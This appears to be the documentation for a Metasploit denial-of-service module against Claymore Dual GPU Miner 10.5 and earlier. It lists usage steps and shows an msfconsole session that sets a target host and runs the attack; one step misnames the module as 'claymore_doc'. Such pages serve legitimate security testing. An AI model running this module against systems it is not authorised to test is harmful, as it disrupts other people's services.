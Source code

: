 ## Vulnerable Application

Vulnerable application versions include:
Claymore Dual GPU Miner<=10.5

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/dos/tcp/claymore_doc`
3. Do: `set rhost`
4. Do: `run`
5. check your miner.

## Scenarios

### Claymore Dual GPU Miner/10.0 - window7

```
msf5 > use auxiliary/dos/tcp/claymore_dos
msf5 auxiliary(dos/tcp/claymore_dos) > show options

Module options (auxiliary/dos/tcp/claymore_dos):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   rhost                   yes       The target address
   rport  3333             yes       The target port

msf5 auxiliary(dos/tcp/claymore_dos) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 auxiliary(dos/tcp/claymore_dos) > run

[*] Starting server...
[*] Creating sockets...
[*] Auxiliary module execution completed
```


